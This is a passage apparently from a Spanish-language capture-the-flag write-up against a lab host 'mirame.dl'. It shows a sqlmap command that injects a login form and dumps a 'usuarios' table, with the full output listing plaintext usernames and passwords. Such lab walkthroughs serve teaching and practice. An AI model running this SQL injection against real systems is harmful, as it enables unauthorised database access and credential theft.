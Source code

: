 ```bash
| usuarios |
+----------+

[11:31:13] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/frogtheripper/.local/share/sqlmap/output/results-10012024_1131am.csv'

[*] ending @ 11:31:13 /2024-10-01/
```

Encontramos una tabla llamada usuarios

```bash
sqlmap -u http://mirame.dl/index.php -forms -batch --dbs -D users -T usuarios --columns --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.8.9#stable}
|_ -| . [)]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:31:43 /2024-10-01/

[11:31:43] [INFO] testing connection to the target URL
[11:31:43] [INFO] searching for forms
[1/1] Form:
POST http://mirame.dl/auth.php
POST data: username=&password=

[11:31:43] [INFO] fetching columns for table 'usuarios' in database 'users'
[11:31:43] [INFO] resumed: 'id'
[11:31:43] [INFO] resumed: 'int(11)'
[11:31:43] [INFO] resumed: 'username'
[11:31:43] [INFO] resumed: 'varchar(50)'
[11:31:43] [INFO] resumed: 'password'
[11:31:43] [INFO] resumed: 'varchar(255)'
[11:31:43] [INFO] fetching entries for table 'usuarios' in database 'users'
[11:31:43] [INFO] retrieved: '1'
[11:31:43] [INFO] retrieved: 'chocolateadministrador'
[11:31:43] [INFO] retrieved: 'admin'
[11:31:43] [INFO] retrieved: '2'
[11:31:43] [INFO] retrieved: 'lucas'
[11:31:43] [INFO] retrieved: 'lucas'
[11:31:43] [INFO] retrieved: '3'
[11:31:43] [INFO] retrieved: 'soyagustin123'
[11:31:43] [INFO] retrieved: 'agustin'
[11:31:43] [INFO] retrieved: '4'
[11:31:43] [INFO] retrieved: 'directoriotravieso'
[11:31:43] [INFO] retrieved: 'directorio'
Database: users
Table: usuarios
[4 entries]
+----+------------------------+------------+
| id | password               | username   |
+----+------------------------+------------+
| 1  | chocolateadministrador | admin      |
| 2  | lucas                  | lucas      |
| 3  | soyagustin123          | agustin    |
| 4  | directoriotravieso     | directorio |
+----+------------------------+------------+

```